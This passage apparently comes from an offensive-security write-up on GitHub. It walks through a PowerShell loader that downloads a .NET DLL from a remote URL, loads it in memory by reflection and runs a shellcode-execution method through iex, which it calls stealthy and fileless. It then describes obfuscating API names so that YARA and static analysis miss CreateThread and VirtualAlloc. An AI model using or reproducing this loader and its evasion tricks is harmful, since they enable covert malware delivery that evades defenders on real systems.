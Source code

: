     - This runs the whole process: download DLL → load it → invoke the shellcode execution method — all in memory.

```powershell
$code = @'
# Download the DLL as a byte array
$url = 'https://github.com/g3tsyst3m/undertheradar/raw/refs/heads/main/ClassLibrary3.dll'
$webClient = New-Object System.Net.WebClient
$assemblyBytes = $webClient.DownloadData($url)

# Load the assembly from the byte array
$assembly = [System.Reflection.Assembly]::Load($assemblyBytes)

# Define the type and method to invoke
$typeName = 'ShellcodeRunner'  # Replace with actual namespace and class name if needed
$methodName = 'ExecuteShellcode'  # Replace with actual method name

# Get the type from the assembly
$type = $assembly.GetType($typeName)

# Get the method to invoke
$methodInfo = $type.GetMethod($methodName, [System.Reflection.BindingFlags]::Public -bor [System.Reflection.BindingFlags]::Static)

# Invoke the method
$methodInfo.Invoke($null, @())
'@

# Execute the dynamically generated code
iex $code
```

> In Summary

- Downloads a remote DLL file directly into memory
- Loads it as a .NET assembly without touching disk
- Finds a specific class and method inside that assembly that I custom named
- Invokes the method to execute the shellcode loader / shellcode execution,

All dynamically and stealthily via PowerShell in-memory execution.  😸

***The .NET DLL / Shellcode Loader***
-

This is fairly straight forward .NET DLL code.  I do some very rudimentary obfuscating of API names that way YARA and other static analysis tools don't see `CreateThread` and `VirtualAlloc` in the clear when running the strings command.  Check it out:

```powershell
strings C:\Users\g3tsyst3m\Documents\GitHub\elevationstation_local\ClassLibrary3\ClassLibrary3\bin\Debug\ClassLibrary3.dll
```

<img width="1437" height="752" alt="image" src="https://github.com/user-attachments/assets/2f554034-472a-433d-8b1a-6d095cc5bb9b" />
